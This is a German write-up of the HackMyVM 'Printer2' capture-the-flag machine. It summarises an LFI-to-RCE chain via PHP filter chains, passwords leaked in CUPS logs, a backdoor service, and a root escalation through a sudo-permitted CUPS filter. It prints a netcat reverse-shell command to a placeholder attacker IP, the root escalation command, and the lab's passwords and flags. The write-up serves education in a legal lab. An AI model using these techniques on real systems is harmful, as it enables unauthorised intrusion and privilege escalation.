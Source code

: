 # Printer2 - HackMyVM (Medium)

![Printer2.png](Printer2.png)

## Übersicht

*   **VM:** Printer2
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Printer2)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 22. Mai 2023
*   **Original-Writeup:** https://alientec1908.github.io/Printer2_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Printer2" zu erlangen. Der Weg dorthin begann mit der Entdeckung einer Subdomain (`printer4life.printer.hmv`) über den Quellcode der Hauptseite. Auf dieser Subdomain wurde eine Local File Inclusion (LFI)-Schwachstelle in `index.php` (Parameter `page`) gefunden und mittels PHP-Filterketten zu Remote Code Execution (RCE) eskaliert, was zu einer Shell als `www-data` führte. Die erste Rechteausweitung zum Benutzer `mabelle` gelang durch das Finden von Klartext-Credentials (`mabelle:LIrmxk8EYtD`) in CUPS-Logdateien. Als `mabelle` wurde ein lokaler Dienst auf Port 1001 entdeckt, der sich als Backdoor in einem Druckerfilter herausstellte und das Passwort (`wK4EyQ15Cga`) für den Benutzer `kierra` preisgab. Die finale Eskalation zu Root erfolgte durch Ausnutzung einer unsicheren `sudo`-Regel, die `kierra` erlaubte, den CUPS-Filter `/usr/lib/cups/filter/rastertopwg` als Root auszuführen. Dieser Filter war anfällig für Command Injection über Argumente (`exec:COMMAND`).

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   Python2 (für alten CUPS-Exploit-Versuch)
*   `gobuster`
*   `nikto`
*   `nc` (netcat)
*   `wfuzz`
*   `curl`
*   Python3 (`php_filter_chain_generator.py`, Shell-Stabilisierung)
*   `find`
*   `grep`
*   `su`
*   `ssh` (für `mabelle`-Login)
*   `sudo`
*   `getcap`
*   `ss`
*   `telnet`
*   Standard Linux-Befehle (`cat`, `ls`, `id`, `cd`, `bash`, `stty`, `export`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Printer2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.118) mit `arp-scan` identifiziert. Hostname `printer.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 8.4p1), 80 (HTTP, Apache 2.4.56) und 631 (IPP, CUPS 2.3.3op2). Ein CUPS-Exploit-Versuch (CVE-2015-1158) scheiterte.
    *   `gobuster` auf Port 80 fand `/images`. `nikto` bestätigte Directory Indexing für `/images` und meldete fehlende Sicherheitsheader.
    *   Im Quellcode von `http://printer.hmv/` wurde ein JavaScript-Hinweis auf die Subdomain `printer4life.printer.hmv` gefunden. Diese wurde in `/etc/hosts` eingetragen.
    *   `gobuster` auf `http://printer4life.printer.hmv` fand u.a. `index.php`, `hp.php`, `canon.php`, `epson.php`.

2.  **Initial Access (LFI zu RCE als `www-data`):**
    *   Eine Local File Inclusion (LFI)-Schwachstelle wurde in `http://printer4life.printer.hmv/index.php` im GET-Parameter `page` gefunden (`?page=/etc/passwd`).
    *   Der Quellcode von `index.php` (ausgelesen via LFI und `php://filter/convert.base64-encode/resource=index.php`) bestätigte die direkte `include($page)`-Schwachstelle.
    *   Mittels `php_filter_chain_generator.py` wurde eine PHP-Filterkette für den Payload `` erstellt.
    *   Die generierte Filterketten-URL (`...index.php?page=php://filter/.../resource=php://temp&cmd=...`) wurde genutzt, um eine Netcat-Reverse-Shell (`nc -e /bin/bash ANGRIFFS_IP 9001`) als `www-data` zu starten.

3.  **Privilege Escalation (von `www-data` zu `mabelle` via Log Leak):**
    *   Als `www-data` wurde in einer Logdatei (vermutlich CUPS `access_log`) ein Eintrag gefunden, der die erfolgreiche Authentifizierung von `mabelle` mit dem Passwort `LIrmxk8EYtD` im Klartext protokollierte.
    *   Mit `su mabelle` und diesem Passwort wurde zu `mabelle` gewechselt.
    *   Im Home-Verzeichnis von `mabelle` wurde deren privater SSH-Schlüssel (`id_rsa`) gefunden, was einen direkten SSH-Login als `mabelle` ermöglichte.

4.  **Privilege Escalation (von `mabelle` zu `kierra` via Backdoor):**
    *   Als `mabelle` zeigte `ss -atlpn` einen lokalen Dienst auf Port 1001.
    *   Eine `telnet`-Verbindung zu `127.0.0.1 1001` offenbarte eine Backdoor, die nach einem "Filter name" fragte.
    *   Durch Eingabe eines gültigen CUPS-Filternamens (z.B. `rastertopwg.c` oder `rastertopwg`, gefunden durch `ls /opt/cups-2.3.3/filter/`) gab der Dienst das Passwort `wK4EyQ15Cga` preis.
    *   Mit `su kierra` und dem Passwort `wK4EyQ15Cga` wurde zu `kierra` gewechselt.
    *   Die User-Flag (`63e2f2ec7e3dbae87afc4e0e86d0867b`) wurde in `/home/kierra/user.txt` gefunden.

5.  **Privilege Escalation (von `kierra` zu `root` via `sudo` CUPS Filter Exploit):**
    *   `sudo -l` als `kierra` zeigte, dass der CUPS-Filter `/usr/lib/cups/filter/rastertopwg` als jeder Benutzer (einschließlich `root`) ohne Passwort ausgeführt werden durfte: `(ALL : ALL) /usr/lib/cups/filter/rastertopwg`.
    *   Durch Ausführen von `sudo -u root /usr/lib/cups/filter/rastertopwg exec:/bin/bash -p` wurde eine Root-Shell erlangt. Der Filter erlaubte die Ausführung von Befehlen über das Argument `exec:COMMAND`.
    *   Die Root-Flag (`052cf26a6e7e33790391c0d869e2e40c`) wurde in `/root/root_flag.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Information Disclosure (Subdomain im Quellcode):** Eine Subdomain wurde durch Analyse des JavaScript-Codes der Hauptseite gefunden.
*   **Local File Inclusion (LFI) mit PHP Filter Chains:** Eine LFI in `index.php` wurde mittels PHP-Filterketten zu Remote Code Execution (RCE) eskaliert.
*   **Klartextpasswörter in Logdateien:** CUPS-Logs enthielten ein Benutzerpasswort im Klartext.
*   **Backdoor in lokalem Dienst:** Ein Dienst auf Port 1001 fungierte als Backdoor und gab ein weiteres Benutzerpasswort preis.
*   **Unsichere `sudo`-Regel (CUPS Filter):** Ein Benutzer durfte einen CUPS-Filter als Root ausführen. Dieser Filter war anfällig für Command Injection über Argumente, was zur Root-Eskalation führte.
*   **Fehlendes `HttpOnly`-Flag für Session-Cookies (Port 631, CUPS):** Ein potenzielles Risiko, das hier aber nicht ausgenutzt wurde.

## Flags

*   **User Flag (`/home/kierra/user.txt`):** `63e2f2ec7e3dbae87afc4e0e86d0867b`
*   **Root Flag (`/root/root_flag.txt`):** `052cf26a6e7e33790391c0d869e2e40c`

## Tags

`HackMyVM`, `Printer2`, `Medium`, `LFI`, `PHP Filter Chain`, `RCE`, `Log Leak`, `Password Disclosure`, `Backdoor`, `CUPS Exploit`, `sudo Exploit`, `Command Injection`, `Linux`, `Web`, `Privilege Escalation`, `Apache`, `CUPS`
